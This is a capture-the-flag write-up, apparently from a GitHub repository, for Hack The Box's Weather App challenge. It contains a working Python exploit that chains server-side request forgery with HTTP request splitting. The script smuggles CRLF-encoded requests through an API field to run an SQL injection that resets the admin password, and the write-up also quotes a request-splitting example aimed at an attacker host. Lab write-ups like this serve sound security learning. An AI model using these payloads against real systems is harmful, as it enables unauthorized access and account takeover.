 index.js checks if socket remoteaddress isn't:
127.0.0.1 return status(401)

there's a db somewhere.
some app is listening on port 80?

vulnerability:
SSRF, SQL injection
```
Path Point:
data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}
```
code:
```py
import requests

url = "http://178.62.106.4:31814"

username="admin"

password="123') ON CONFLICT(username) DO UPDATE SET password = 'admin';--"
parsedUsername = username.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
parsedPassword = password.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
contentLength = len(parsedUsername) + len(parsedPassword) + 19
endpoint = '127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str (contentLength) + '\u010D\u010A\u010D\u010Ausername='+parsedUsername + '&password='+ parsedPassword + '\u010D\u010A\u010D\u010AGET\u0120/?lol='


city='test'
proxies={'http':'http://127.0.0.1:8080'};
country='test'

json={'endpoint':endpoint,'city':city,'country':country}

res=requests.post(url=url+'/api/weather',json=json,proxies=proxies);
```

This took me a long time to guess why the code won't work(yes i stole it from writeup but atleast i took research of SSRF first before i used it)
Apparently, i had to send the proxy data to repeater in order for it to work and then refresh the login webdirectory and see if it gave you the flag or
u can just login again.

this is either SSRF or request splitting but either way i'll try to explain this:

SSRF:
```
Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make requests to an unintended location.

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. 
In other cases, they may be able to force the server to connect to arbitrary external systems, potentially leaking sensitive data such as authorization credentials.
                                                                                                                                                                                                                                        --PortSwigger
```

SSRF uses a parameter(it can be endpoint or an API parameter, any parameter) that uses a http request to send information to that specified url, and retrieve
the contents of it:
```
data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}

PortSwigger:
stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

Though, i'd rather call this as the network point or path point.

if we update the parameter or path point to:
```
stockApi=http://localhost/admin
```
this gives us the admin console or the contents of the admin webdirectory, we can visit the directory but it will be blocked or it won't show.

Request Splitting:
```
HTTP Request Splitting is an attack that enables forcing the browser to send arbitrary HTTP requests, inflicting XSS and poisoning the browser's cache. 
The essence of the attack is the ability of the attacker, once the victim (browser) is forced to load the attacker's malicious HTML page, to manipulate 
one of the browser's functions to send 2 HTTP requests instead of one HTTP request. Two such mechanisms have been exploited to date: 
the XmlHttpRequest object (XHR for short) and the HTTP digest authentication mechanism. For this attack to work, the browser must use a forward HTTP proxy 
(not all of them "support" this attack), or the attack must be carried out against a host located on the same IP (from the browser's perspective) with the 
attacker's machine.
                                    ----Webappsec.org

PortSwigger:
HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or 
more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to 
sensitive data, and directly compromise other application users.
                                    -----PortSwigger

My Explanation:
Request Splitting, as what it says in the name is the ability to send 2 request instead of one request via vulnerable parameters to gain access or to hold
sensitive data.
```

The difference between SSRF and Request Splitting is that:                                                                                                   
```
1) SSRF simply uses a vulnerable parameter that uses specified url to send request to that url and retrieve it back to the client browser.
2) Request Splitting uses a content-length payload on a vulnerable parameter that would get executed and then send another request with the content-length
payload.
```

Explanation of the source code:
```
the endpoint was found from the files downloaded, provided by the HTB(weather App).
It is vulnerable to SSRF; and it is also vulnerable to Request Splitting

the proxy and the endpoint variable is the only thing important to explain the code.
as explained at the top: the endpoint in the code was vulnerable because there was no sanitization

The register was vulnerable to SQL injection( never tried the login )

the proxy is important because this is where we will need to get the retrieved data. The proxy acts as a middle man
between the connection line.

You can use burp suite as your proxy in the code to retrieve the information; and send the request again to repeater.
```
Example of Request Splitting:
```
vulnerable_parameter: GET\thttp://www.target.site/page.cgi?parameters\tHTTP
 /1.0\r\nHost:\twww.target.site\r\nFoo:Bar\r\n\r\nGET\thttp://nosuchhost/\tHTTP 
 /1.0\r\nBaz:","http://www.attacker.site/

or:

endpoint: '127.0.0.1/\HTTP:/\127.0.0.1/\u10APOST/\register/\username&password' + 'blahblah?id=lol'
```
Source:

https://portswigger.net/web-security/request-smuggling

https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/

http://projects.webappsec.org/w/page/13246929/HTTP%20Request%20Splitting


```Proof Of Concept(PoC):
Flag: HTB{w3lc0m3_t0_th3_p1p3_dr34m}
```
![logo](Capture.jpg)
![logo](Capture2.png)
![logo](unknown.png)

